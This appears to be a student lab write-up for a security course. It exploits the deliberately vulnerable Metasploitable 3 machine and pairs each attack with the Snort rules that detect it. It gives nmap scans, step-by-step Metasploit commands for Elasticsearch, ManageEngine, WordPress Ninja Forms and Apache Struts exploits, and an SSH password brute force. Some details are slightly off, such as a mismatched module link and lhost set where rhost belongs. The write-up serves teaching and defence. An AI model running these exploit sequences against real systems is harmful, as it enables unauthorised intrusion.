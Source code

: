 # Cyber_Security_Base_Project_II
"Metasploitable 3" and "Snort" rules 
Cyber security base – Project II

Target – Metasploitable 3
	    Windows Server 2008 & Ubuntu server 14

STEP 1: Run an Nmap Ping sweep scan to look for potential connected devices  

$ nmap -sP 192.168.1.1/24


STEP 2: Identify Target Host – 192.168.1.40

STEP 3: Run an nmap scan on the target machine with OS Fingerprinting and save the output in a file called Meta3.nmap


I ran a verbose nmap scan for which i have attached the output file:

# Nmap 7.80 scan initiated Sun Mar  8 20:48:34 2020 as: nmap -sC -sV -p- -A -oA Meta3 192.168.1.40 (output file attached)

Scan results discovered many of valuable information about the open ports and services running on the target device. There was no authentication required to access the administrative functions, default credentials are not changed and there are outdated versions of a few were running. Snort obviously did not trigger a warning about anything, as the port scan detection configurations has been commented out from snort.conf on default.

EXPLOIT I – ELASTIC SEARCH – CVE-2014-3120

STEP 4: PORT 9200 – Elasticsearch

Googling about the gethered information I found a link which has an exploit for that service. 

Vulnerability name: Elastic search - CVE-2014-3120

https://www.rapid7.com/db/modules/exploit/multi/misc/java_rmi_server

STEP 5: Run a searchsploit and check if you have the exploit in local machine.

$ searchsploit elasticsearch



STEP 6: Turn on metasploit

$ msfconsole








STEP 7: search for an exploit and exploit the machine.

$ search elasticsearch
$ use exploit/multi/elasticsearch/script_mvel_rce
$ options
$ set rhost 192.168.1.40
$ exploit

you get a shell once you get a shell, you can run the following commands.

# sysinfo
# shell
# whoami


Snort did not log any alerts

SNORT RULE FIX: but after uncommenting line 811 (depends about ruleset) on server-other.rules file, Snort produces the following message: SERVER-OTHER ElasticSearch script remote code execution attempt [**] [Classification: Attempted User Privilege Gain]

EXPLOIT II - ManageEngine (CVE-2015-8249)

STEP 1: Port 8020 is running an Apache service 

STEP 2: Visit <your_meta_ip>:8020



Manage Engine is running in that port with a default username and password admin:admin

Manage Engine : Build No – 91084 

Googling for such information we get the following Poc
https://blog.rapid7.com/2015/12/14/r7-2015-22-manageengine-desktop-central-9-fileuploadservlet-connectionid-vulnerability-cve-2015-8249/

STEP 3: look for exploits in your device 

$ searchsploit manageengine desktop central 9


STEP 4: Turn on metasploit

$ msfconsole
$ search manageengie
$ use exploit/windows/http/manageengine_connectionid_write
$ set rhost 192.168.1.40
$ exploit

you gain meterprerer shell, run the following commands to conform.
# sysinfo			# shell 			# whoami
Once again, Snort doesn’t alert about anything, but this can easily be changed by 

SNORT RULE FIX: Uncommenting lines 1854-1856 on server-webapp.rules gives us following: SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [**] [Classification: Web Application Attack]


Exploit III - WordPress – CVE-2016-1209
STEP 1: Visit <Meta_ip:>8585 you can see that wordpress is running.

STEP 2: Googling a little bit we found the following exploit
https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_ninja_forms_unauthenticated_file_upload
STEP 3: Trun on metasploit console and exploit the target.
$ msfconsole
$ search wp_ninja_forms
$ use exploit/multi/http/wp_ninja_forms_unauthenticated_file_upload
$ set rhost 192.168.1.40
$ set rport 8585
$ set TARGETURI /wordpress/
$ set FORM_PATH /index.php/king-of-hearts/
$ exploit

SNORT RULE FIX : After uncommenting line 2284 in server-webapp.rules and adding the port 8585 into monitoring HTTP traffic, Snort gives the following alert: SERVER-WEBAPP WordPress Ninja Forms nf_async_upload arbitrary PHP file upload attempt [**] [Classification: Attempted Administrator Privilege Gain]


EXPLOIT 4: Bruteforcing SSH
STEP 1: When you gained a root access last time, run the following command to see a list of all users in the system.
$net users

We can use the metaploit module for ssh_login to try to brute force into some of these available names.

STEP 2: save all the user name in a text file





















STEP 3: turn on metasploit and use the ssh_login module to check for insecure passwords same as username.

$ use auxiliary/scanner/ssh/ssh_login
$ set rhost 192.168.1.40
$ set USER_AS_PASS true
$ set USER_FILE user.txt
$ exploit

Give the user file that we created to metasploit and exploit

I had some issues with my arch linux so had to shift back to kali for this one.
We can already see that we got some valid credentials like Vagrant:Vagrant.

SNORT FIX : Snort could probably be generated for slower (longer) SSH brute force attempts, but for such a fast SSH connection it wouldn’t be wise to start raising alert flags (considering admin’s point of view).


EXPLOIT 5: Apache Struts CVE-2016-3087

STEP 1: Look nmap result port 8282 runs Apache Tomcat Server, 

STEP 2: After a bit of research we find the following:
https://www.rapid7.com/db/vulnerabilities/struts-cve-2016-3087

STEP 3: Open metasploit and look for exploit and hack the box.
$ msfconsole
$ search rest_exec
$ use exploit/multi/http/struts_dmi_rest_exec
$ set lhost 192.168.1.40
$ set lport 8282
$ exploit


We hacked the box 

SNORT RULE FIX: We can get Snort to figure this out by uncommenting lines 118 and 119 from server-apache.rules (which I had already done) and adding port 828 for monitoring. This gives us following message: SERVER-APACHE Apache Struts remote code execution attempt [**] [Classification: Attempted Administrator Privilege Gain]

Is it easier to fix the application than to detect attacks?

In my opinion, detecting attacks is much easier than fixing an application. This is because the latter can be approached in a variety of different ways, unlike the former. In other words, it is more efficient to conduct reconnaissance, penetration testing, and privilege escalation to identify faults in an application than 
to sift through millions of lines of code trying to locate and fix issues. Moreover, in the latter approach, fixing one vulnerability often introduces multiple new ones, and mistakes may occur at the implementation level—not necessarily within the code itself. Issues like this can easily push developers outside their comfort 
zones, increasing the likelihood of errors. Developers often have a heavy workload, and with the recent surge in IoT devices, it's increasingly difficult for them to manage application fixes entirely on their own. That’s where intrusion detection plays a crucial role. Although not a direct solution, it serves as a countermeasure 
by providing information about potential vulnerabilities in both the system and its applications. Systems based on modern open-source platforms are arguably easier to patch, but vulnerabilities still need to be identified first—making intrusion detection essential. Penetration testing reports and vulnerability assessments can 
actually speed up the application-fixing process. In addition to Intrusion Detection Systems (IDS) like Snort, attack detection often involves log monitoring and analysis. When unusual behavior is noticed in logs, it may indicate the need for a vulnerability assessment or software/hardware update—though not always, as false 
positives can be quite frustrating.
